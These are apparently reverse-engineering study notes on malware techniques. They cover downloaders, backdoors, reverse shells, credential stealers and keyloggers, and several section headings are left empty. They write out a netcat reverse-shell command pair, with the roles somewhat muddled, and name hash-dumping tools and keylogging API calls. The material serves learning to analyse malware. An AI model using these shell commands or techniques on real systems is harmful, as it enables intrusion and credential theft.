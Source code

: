 # Malware Techniques

> Content credited to: [https://securedorg.github.io/RE101/section2.1/](https://securedorg.github.io/RE101/section2.1/)

## Downloaders and Launchers {#downloaders-and-launchers}

Downloaders download malware + execute on system.

* commonly use Win API:

```
URLDownloadToFileA
WinExec

```

Launcher \(loader\) any executable that installs malware for immediate or future covert execution.

often contain malware designed to load.

## Backdoors {#backdoors}

provides attacker with remote access

communicate commonly over HTTP port 80 \(best way to blend in to network traffic\)

Common set of functionality:

* manipulate registry keys
* enumerate display windows
* create directories
* search files

### Reverse Shell {#reverse-shell}

connection originating from victim machine, providing access to the victim machine’s shell.

Netcat is a common tool in use as a reverse shell

Listening on incoming connections:

```
nc -l -p 80

```

`-l`-&gt; listen  
`-p`-&gt; port

Attacker connects via:

```
nc [victim-ip] 80 -e cmd.exe

```

`-e`-&gt; execute once connection established

#### Windows Reverse Shells {#windows-reverse-shells}

Two coding implementations using`cmd.exe`:

* basic -
  &gt;
   easier to write, works as well as +threaded
  * Socket is created and connection to remote is created.
  * Socket is tied to std streams \(input, output, err\)
  * Windows suppressed from victim
* multithreaded
  * Socket is created, two pipes, two threads.
  * `CreatePipe`
    ties together read/write ends to a pipe \(stdin, stdout\).
  * `CreateProcess`
    ties the standard streams to pipes instead of directly to sockets.
  * Two threads spawned \(I/O\)

### Remote Administration Tool \(RAT\) {#remote-administration-tool-rat}

remotely manage a computer\(s\)

often used in targeted attacks, moving laterally across network.

## Compression

## Obfuscation

## Persistence

## Privilege Escalation

## Defense Evasion

## Credential Stealers

3 types of malware:

1. Programs wait for a user to log in to steal creds
2. Programs that dump info \(such as pass hashes\)
3. Programs that log keystrokes

### GINA interception {#gina-interception}

Windows XP:`Graphical Identification and Authentication (GINA)`interception is a technique that malware uses to steal creds.

GINA is implemented in a DLL,`msgina.dll`, and is loaded by Winlogon exec during login.

### Hash Dumping {#hash-dumping}

Attackers try to grab hashes in order to crack them offline or use them in pass-the-hash attack, using LM and NTLM hashes to auth, without needing to decrypt or crack the hash.

`pwdump`and`pass-the-hash toolkit`are freely available packages.

### Keystroke Logging {#keystroke-logging}

malware records keystrokes so attacker can observed typed data

#### Kernel-based keyloggers {#kernel-based-keyloggers}

Difficult to detect with user-mode apps.

Usually part of a rootkit and can act as keyboard drivers to capture keystrokes, bypassing user-space programs

#### User-space keyloggers {#user-space-keyloggers}

typically use Win API

usually implemented with either hooking/polling.

Hooking -&gt; uses Win API to notify the malware each time a key is pressed \(typically`SetWindowsHookEx`\)

Polling -. uses Win API to constantly poll the state of the keys, typically via`GetAsyncKeyState`and`GetForegroundWindow`

Keyloggers can be identified in Strings listings that may show up as`[Up][Num Lock][Down][Right][UP][Left][PageDown]`

## Reconnaissance

## Lateral Movement

## Execution

## Collection

## Exfiltration

## Command and Control



